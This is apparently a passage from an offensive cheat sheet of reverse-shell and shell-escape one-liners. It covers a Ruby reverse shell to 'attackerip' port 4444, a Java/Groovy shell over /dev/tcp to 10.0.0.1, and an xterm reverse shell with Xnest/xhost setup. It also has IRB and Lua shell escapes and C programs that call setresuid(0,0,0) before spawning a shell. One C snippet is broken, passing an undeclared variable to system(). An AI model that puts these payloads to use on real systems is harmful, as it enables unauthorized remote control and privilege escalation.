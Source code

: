 ### Windows:
```
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```



## IRB:
```
exec "/bin/sh"
```

## Lua:
```
os.execute("/bin/sh")
```

## C:
```
#include <stdio.h>

int main(int argc, char **argv)
{
	int status = system(bash);
	return 0;
}
```
```
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```
```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```
## Java Reverse Shell:
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Xterm Reverse Shell:
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```
xhost +targetip
```
